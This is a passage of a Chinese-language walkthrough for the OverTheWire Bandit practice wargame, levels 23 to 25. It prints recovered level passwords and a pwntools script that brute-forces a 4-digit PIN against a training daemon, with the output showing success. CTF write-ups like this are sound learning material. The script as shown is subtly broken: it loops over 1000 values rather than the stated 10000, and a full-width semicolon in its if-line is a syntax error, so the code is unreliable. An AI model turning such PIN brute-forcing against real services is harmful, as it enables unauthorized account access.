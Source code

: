 这时候在`/var/spool/bandit24`目录下不一定能看见你写的脚本，就像前面的定时任务脚本里面写的，执行完脚本这个就任务就删除了，所以没看到也不要奇怪。
这个时候说明我们的脚本已经执行了，可以去查看我们的密码了

```shell
bandit23@bandit:/tmp/chenyang23$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

下一关的密钥已经写好了

## Level 24 → Level 25

**Level Goal**:

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

根据python的`pwntools`写个脚本跑密码就好了，注意，在其他目录下我们是没有写权限的，这个脚本只能在`/tmp`目录下创建。如果用的是我下面这种r`receive line`方法，有些破坏输出的结果我要多接收一行过滤掉，

`vim /tmp/conn.py`

创建脚本如下：

```python
#！ /usr/bin/python
from pwn import *

conn = remote('localhost', '30002')
badline = conn.recvline()
for i in range(1000):
    tmp = str(i).zfill(4)
    print '[+] Trying pincode: ' + str(tmp)
    conn.sendline('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + tmp)
    response = conn.recvline()
    print response
    if "Wrong" not in response；
       print "Got Pincode: " + str(tmp)
       response = conn.recvline()
       print response
       exit(0)
```

终端运行`python /tmp/conn.py`

```plaintext
[+] Trying pincode: 0377
Wrong! Please enter the correct pincode. Try again.

[+] Trying pincode: 0378
Correct!

Got Pincode: 0378
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
